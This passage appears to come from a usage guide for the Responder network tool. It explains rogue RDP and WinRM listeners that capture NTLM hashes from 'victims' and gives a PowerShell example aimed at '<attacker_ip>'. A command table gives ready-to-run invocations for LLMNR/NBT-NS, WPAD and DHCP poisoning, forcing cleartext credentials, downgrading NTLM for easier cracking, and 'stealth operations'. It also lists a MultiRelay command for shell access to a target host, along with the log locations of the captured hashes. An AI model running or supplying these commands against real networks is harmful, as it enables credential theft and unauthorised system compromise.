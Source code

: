 ### RDP Server
- **Purpose**: Capture Remote Desktop authentication attempts
- **Default Port**: TCP 3389
- **Usage**: When victims attempt RDP connections
- **Data Captured**: NTLM hashes

### WinRM Server
- **Purpose**: Capture Windows Remote Management authentication
- **Default Port**: TCP 5985/5986
- **Usage**: When PowerShell remoting is attempted
- **Data Captured**: NTLM hashes
- **Example**: When a victim runs:
  ```powershell
  New-PSSession -ComputerName <attacker_ip> -Credential (Get-Credential)
   ```

## Command Reference Sheet

| Command | Description | Use Case |
|---------|-------------|----------|
| `responder -I eth0` | Basic usage with LLMNR/NBT-NS poisoning | Default attack to capture NTLM hashes |
| `responder -I eth0 -A` | Analyze mode (no poisoning) | Reconnaissance without leaving evidence |
| `responder -I eth0 -w` | Enable WPAD proxy server | Browser-based hash capture |
| `responder -I eth0 -wd` | WPAD with DHCP poisoning | Enhanced browser-based capture |
| `responder -I eth0 -wdF -b` | Force basic auth with WPAD | Capture cleartext credentials |
| `responder -I eth0 -wdF --lm --disable-ess` | Downgrade NTLM security | Easier-to-crack hashes |
| `responder -I eth0 -e 192.168.1.2` | External IP poisoning | Stealth operations |
| `responder -I eth0 -D` | Enable DNS in DHCP response | DNS-level poisoning |
| `python3 MultiRelay.py -t 192.168.1.3 -u ALL` | Relay for shell access | Direct system compromise |

## Log File Locations and Formats

Responder automatically creates detailed logs of each session in the `/usr/share/responder/logs/` directory. Understanding these logs is crucial for effective use:

### Hash Log Files
- **Format**: `[Protocol]-[Version]-[IP].txt`
- **Examples**:
  - `SMB-NTLMv2-192.168.1.5.txt` - SMB authentication from 192.168.1.5
  - `HTTP-NTLMv2-fe80::ddc5:3b8f:e421:a88a.txt` - HTTP authentication with IPv6
  - `MSSQL-NTLMv2-192.168.1.10.txt` - MSSQL authentication attempt

### Session Log
- **File**: `Responder-Session.log`
- **Contains**: Detailed information about all poisoning attempts, successful or not
- **Usage**: Review for troubleshooting and understanding attack flow
